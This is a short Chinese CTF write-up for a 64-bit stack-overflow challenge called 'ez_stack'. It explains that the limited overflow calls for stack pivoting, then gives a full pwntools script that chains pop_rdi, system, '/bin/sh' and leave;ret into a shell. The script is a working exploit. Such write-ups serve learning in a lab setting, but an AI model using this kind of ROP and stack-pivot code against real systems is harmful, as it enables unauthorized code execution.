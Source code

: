 64位程序，0x20的栈空间，0x30的自主发挥空间，只能溢出到rbp和ret，查询相关信息可知此类问题为栈转移。

[相关链接](https://ctf-wiki.org/pwn/linux/stackoverflow/fancy-rop/)

程序中有system()和栈地址，我们寻找pop_rdi;ret和leave;ret的地址，再构造payload就可以啦

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

sh=process('./ez_stack')
elf=ELF('./ez_stack')

sh.recvuntil('This GIFT will help you: ')
system=elf.plt['system']
s=int(sh.recvline(),16)

leave_ret=0x400896

pop_rdi=0x400963

print hex(s)
payload = p64(pop_rdi)+p64(s+24)+p64(system)+'/bin/sh\x00'+p64(s-8)+p64(leave_ret)

sh.recvuntil('Use your magic word now:')

sh.send(payload)

sh.interactive()

```

